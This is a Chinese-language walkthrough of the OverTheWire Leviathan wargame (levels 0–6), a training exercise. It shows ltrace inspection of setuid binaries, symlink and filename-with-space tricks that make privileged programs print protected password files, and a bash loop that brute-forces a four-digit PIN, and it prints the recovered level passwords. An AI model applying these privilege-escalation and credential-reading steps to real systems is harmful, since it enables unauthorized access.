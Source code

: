 # level0 (在 html文件中grep password关键词)

将`/home/leviathan0/.backup`目录下的html文件传到本地然后grep一下password关键词。

➜  level0 git:(master) grep password bookmarks.html                                                                               [22:31:04]
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is rioGegei8m" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>

得到level1的密码为
rioGegei8m

# level1 (ltrace的简单使用)

发现home目录下的check可执行文件(setuid)
```
leviathan1@melinda:~$ ltrace ./check 
...
strcmp("asd", "sex")
...
```
用sex成功得到shell
`cat /etc/leviathan_pass/leviathan2`
得到level2的密码为
ougahZi8Ta

# level2 (access()检查文件是否存在，而/bin/cat 并不检查文件名是否含有空格, 符号链接)

```
leviathan2@melinda:/tmp/solveme$ ltrace ~/printfile "file tmp.txt"
__libc_start_main(0x80484f4, 2, -10348, 0x80485d0, 0x8048640
access("file tmp.txt", 4) = 0
snprintf("/bin/cat file tmp.txt", 511, "/bin/cat %s", "file tmp.txt") = 21
system("/bin/cat file tmp.txt"/bin/cat: file: Permission denied
/bin/cat: tmp.txt: No such file or directory
```
通过ltrace命令发现./printfile会通过调用access()检查文件是否存在，确认存在之后再调用cat命令，打印出文件内容。
所以我们需要先利用空格的bug，创建一个文件名中含有空格的文件，然后将空格前面(或后面)的字符串作为
`/etc/leviathan_pass/leviathan3`的链接文件。
```
leviathan2@melinda:/tmp/your_name$ ln -s  /etc/leviathan_pass/leviathan3 a
leviathan2@melinda:/tmp/your_name$ touch a\ b.txt
leviathan2@melinda:/tmp/your_name$ ~/printfile a\ b.txt
Ahdiemoo1j
/bin/cat: b.txt: No such file or directory
```
得到level3的密码为
Ahdiemoo1j

# level3
依然是用ltrace
```
leviathan3@melinda:~$ ls
level3
leviathan3@melinda:~$ ltrace ./level3
__libc_start_main(0x80485fe, 1, 0xffffd794, 0x80486d0 <unfinished ...>
strcmp("h0no33", "kakaka")                                                             = -1
printf("Enter the password> ")                                                         = 20
fgets(Enter the password> snlprintf
"snlprintf\n", 256, 0xf7fcac20)                                                  = 0xffffd58c
strcmp("snlprintf\n", "snlprintf\n")                                                   = 0
puts("[You've got shell]!"[You've got shell]!
)                                                            = 20
system("/bin/sh"$ id
uid=12003(leviathan3) gid=12003(leviathan3) groups=12003(leviathan3)
$ exit
 <no return ...>
 --- SIGCHLD (Child exited) ---
 <... system resumed> )                                                                 = 0
 +++ exited (status 0) +++
 leviathan3@melinda:~$ ./level3
 Enter the password> snlprintf
 [You've got shell]!
 $ id
 uid=12003(leviathan3) gid=12003(leviathan3) euid=12004(leviathan4) groups=12004(leviathan4),12003(leviathan3)
 $ cat /etc/leviathan_pass/leviathan4
 vuH0coox6m
```

得到level4的密码为
vuH0coox6m

# level4

发现`/.trash.bin`，执行之，得到
01010100 01101001 01110100 01101000 00110100 01100011 01101111 01101011 01100101 01101001 00001010
将字节码放到
http://www.binaryhexconverter.com/binary-to-ascii-text-converter
解码得到
Tith4cokei

得到level5的密码为
Tith4cokei

# level5 (ln -s 符号链接)

执行
```
leviathan5@melinda:~$ ./leviathan5
Cannot find /tmp/file.log
```
发现需要用到/tmp/file.log, 于是尝试写入任意字符串到该文件
```
leviathan5@melinda:~$ echo  "xxx" >> /tmp/file.log
leviathan5@melinda:~$ ./leviathan5
xxx
```
于是可以将该文件设置为需要的文件的链接
```
leviathan5@melinda:~$ ln -s /etc/leviathan_pass/leviathan6  /tmp/file.log
leviathan5@melinda:~$ ./leviathan5
UgaoFee4li
```
于是得到level6的密码为
UgaoFee4li

# level6 (shell脚本暴力破解)
参考
http://blog.zer0w1re.net/over-the-wire-leviathan-walkthrough/
既然只是4位数，可暴力破解
```
for i in {0000..9999}; do ./leviathan6 $i; echo $i; done
```
结果得到
```
Wrong
7119
Wrong
7120
Wrong
7121
Wrong
7122
$id                                                                                                                                        [ uid=12006(leviathan6) gid=12006(leviathan6) euid=12007(leviathan7) groups=12007(leviathan7),12006(leviathan6)
$ cat /etc/leviathan_pass/leviathan7
ahy7MaeBo9
```
